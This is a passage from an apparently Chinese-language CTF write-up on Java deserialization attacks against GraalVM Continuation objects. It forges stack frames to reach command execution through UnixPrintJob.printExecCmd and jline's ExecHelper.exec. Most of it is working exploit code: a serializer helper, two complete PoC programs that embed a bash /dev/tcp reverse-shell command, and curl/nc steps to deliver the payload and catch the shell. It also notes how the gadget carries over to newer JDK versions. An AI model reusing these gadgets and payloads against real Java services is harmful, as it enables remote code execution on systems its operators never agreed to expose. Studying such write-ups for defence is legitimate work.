#       11: invokestatic  #9                  // Method jdk/internal/org/jline/utils/ExecHelper.exec:(Z[Ljava/lang/String;)Ljava/lang/String;
```

`exec` 在 18 调完 `Log.trace()` 才 `new ProcessBuilder(命令)`，命令已经在局部变量里，`ProcessBuilder` 是停住之后才新建的，所以能写进字节。上面那层用 `ExecPty.current` 停在 11，11 正在调的就是 `exec`，名字对得上。
`current` 这一帧局部变量长度 8，`exec` 长度 6，命令放第 3 个槽，`doGetConfig` / `setSize` / `doSetAttr` 也在调同一个 `exec`，还是这一对类，换个入口而已。

其余 INNER 里会拉进程的还有二十来个，但是都止步在 `exec` / `start` 本身上，继续执行等于这条调用没发生，拿到的是 `null`；或者停住时局部变量里已经是 `ProcessBuilder`，写不进字节；过完前面那三条，能打穿的就是这两对。

## UnixPrintJob

```
栈顶
  PrinterSpooler.run                 停在 98   调用 printExecCmd
  UnixPrintJob.printExecCmd          停在 367  调用 println()
  ContinuationImpl.suspend           返回 null
栈底
```

序列化器如下，高版本 JDK 用 unsafe

```java
package org.example.common;

import sun.misc.Unsafe;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Ser {
    private static final Unsafe U = unsafe();

    private static Unsafe unsafe() {
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            return (Unsafe) field.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        try {
            field.setAccessible(true);
            field.set(obj, value);
        } catch (Exception e) {
            long offset = U.objectFieldOffset(field);
            if (field.getType() == int.class) {
                U.putInt(obj, offset, ((Number) value).intValue());
            } else if (field.getType() == long.class) {
                U.putLong(obj, offset, ((Number) value).longValue());
            } else if (field.getType() == boolean.class) {
                U.putBoolean(obj, offset, (Boolean) value);
            } else {
                U.putObject(obj, offset, value);
            }
        }
    }

    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        try {
            return field.get(obj);
        } catch (Exception e) {
            return U.getObject(obj, U.objectFieldOffset(field));
        }
    }

    public static Field getField(Class<?> clazz, String fieldName) {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            try {
                field.setAccessible(true);
            } catch (Exception ignored) {
            }
            return field;
        } catch (NoSuchFieldException e) {
            if (clazz.getSuperclass() != null) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            return null;
        }
    }

    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(bytes));
        return objectInputStream.readObject();
    }
}
```

exp 如下：

```java
package org.example.poc;

import org.example.common.Job;
import org.example.common.Ser;
import org.graalvm.continuations.Continuation;

import java.io.FileOutputStream;
import java.lang.reflect.Method;
import java.net.HttpURLConnection;
import java.net.URL;

public class Unix {
    public static void main(String[] args) throws Exception {
        String cmd = "bash -i >& /dev/tcp/host.docker.internal/4444 0>&1";
        // String cmd = "open -a Calculator";

        Continuation continuation = Continuation.create(new Job());
        continuation.resume();
        Continuation deserialized = (Continuation) Ser.unserialize(Ser.serialize(continuation));
        Ser.setFieldValue(deserialized, "entryPoint", null);

        Object next = Ser.getFieldValue(deserialized, "stackFrameHead");
        next = Ser.getFieldValue(next, "next");
        next = Ser.getFieldValue(next, "next");

        Method run = Class.forName("sun.print.UnixPrintJob$PrinterSpooler").getDeclaredMethod("run");
        Ser.setFieldValue(next, "method", run);
        Ser.setFieldValue(next, "pointers", new Object[]{null, null, "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l"});
        Ser.setFieldValue(next, "primitives", new long[14]);
        Ser.setFieldValue(next, "bci", 98);
        Ser.setFieldValue(deserialized, "stackFrameHead", next);

        next = Ser.getFieldValue(next, "next");
        Method printExecCmd = Class.forName("sun.print.UnixPrintJob").getDeclaredMethod(
                "printExecCmd", String.class, String.class, boolean.class, String.class, int.class, String.class);
        Ser.setFieldValue(next, "method", printExecCmd);
        Ser.setFieldValue(next, "pointers", new Object[]{null, null, "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l",
                new String[]{"/bin/bash", "-c", cmd}});
        Ser.setFieldValue(next, "primitives", new long[15]);
        Ser.setFieldValue(next, "bci", 367);

        FileOutputStream fileOutputStream = new FileOutputStream("unix.ser");
        fileOutputStream.write(Ser.serialize(deserialized));
        fileOutputStream.close();

        // java.io.FileInputStream fileInputStream = new java.io.FileInputStream("unix.ser");
        // Continuation local = (Continuation) new java.io.ObjectInputStream(fileInputStream).readObject();
        // fileInputStream.close();
        // local.resume();

        // HttpURLConnection conn = (HttpURLConnection) new URL("http://127.0.0.1:8000/coffee").openConnection();
        // conn.setRequestMethod("POST");
        // conn.setDoOutput(true);
        // conn.setRequestProperty("Content-Type", "application/octet-stream");
        // conn.getOutputStream().write(Ser.serialize(deserialized));
        // conn.getResponseCode();
    }
}
```

用题目提供的 jar 来编译免得出 bug，然后发包 getshell

```bash
nc -lv 4444
curl --noproxy '*' -X POST --data-binary @unix.ser http://127.0.0.1:8000/coffee
```



调试的时候也用了最新版的 25.x ，发现 `printExecCmd` 前面多了指令，367 变成 `aload 6`，resume 报 `Target bci is not a valid bytecode`。`println()` 在 421，数组长度 15 改 21，也就是说这条 gadget 依旧可用。

```
24.1.1 printExecCmd          25.x printExecCmd
367 invokevirtual println()V  367 aload 6
370 aload 13                  421 invokevirtual println()V
372 areturn
```

## ExecHelper

```
栈顶
  ExecPty.current                    停在 11   调用 ExecHelper.exec
  ExecHelper.exec                    停在 18   调用 Log.trace()
  ContinuationImpl.suspend           返回 null
栈底
```

exp 如下：

```java
package org.example.poc;

import org.example.common.Job;
import org.example.common.Ser;
import org.graalvm.continuations.Continuation;

import java.io.FileOutputStream;
import java.lang.reflect.Method;
import java.net.HttpURLConnection;
import java.net.URL;

public class Jline {
    public static void main(String[] args) throws Exception {
        String cmd = "bash -i >& /dev/tcp/host.docker.internal/4445 0>&1";
        // String cmd = "open -a Calculator";

        Continuation continuation = Continuation.create(new Job());
        continuation.resume();
        Continuation deserialized = (Continuation) Ser.unserialize(Ser.serialize(continuation));
        Ser.setFieldValue(deserialized, "entryPoint", null);

        Object next = Ser.getFieldValue(deserialized, "stackFrameHead");
        next = Ser.getFieldValue(next, "next");
        next = Ser.getFieldValue(next, "next");

        Method current = Class.forName("jdk.internal.org.jline.terminal.impl.ExecPty")
                .getDeclaredMethod("current",
                        Class.forName("jdk.internal.org.jline.terminal.spi.TerminalProvider$Stream"));
        Ser.setFieldValue(next, "method", current);
        Ser.setFieldValue(next, "pointers", new Object[8]);
        Ser.setFieldValue(next, "primitives", new long[8]);
        Ser.setFieldValue(next, "bci", 11);
        Ser.setFieldValue(deserialized, "stackFrameHead", next);

        next = Ser.getFieldValue(next, "next");
        Method exec = Class.forName("jdk.internal.org.jline.utils.ExecHelper")
                .getDeclaredMethod("exec", boolean.class, String[].class);
        Object[] pointers = new Object[6];
        pointers[2] = new String[]{"/bin/bash", "-c", cmd};
        Ser.setFieldValue(next, "method", exec);
        Ser.setFieldValue(next, "pointers", pointers);
        Ser.setFieldValue(next, "primitives", new long[6]);
        Ser.setFieldValue(next, "bci", 18);

        FileOutputStream fileOutputStream = new FileOutputStream("jline.ser");
        fileOutputStream.write(Ser.serialize(deserialized));
        fileOutputStream.close();

        // java.io.FileInputStream fileInputStream = new java.io.FileInputStream("jline.ser");
        // Continuation local = (Continuation) new java.io.ObjectInputStream(fileInputStream).readObject();
        // fileInputStream.close();
        // local.resume();

        // HttpURLConnection conn = (HttpURLConnection) new URL("http://127.0.0.1:8000/coffee").openConnection();
        // conn.setRequestMethod("POST");
        // conn.setDoOutput(true);
        // conn.setRequestProperty("Content-Type", "application/octet-stream");
        // conn.getOutputStream().write(Ser.serialize(deserialized));
        // conn.getResponseCode();
    }
}
```

```bash
nc -lv 4445
curl --noproxy '*' -X POST --data-binary @jline.ser http://127.0.0.1:8000/coffee
```



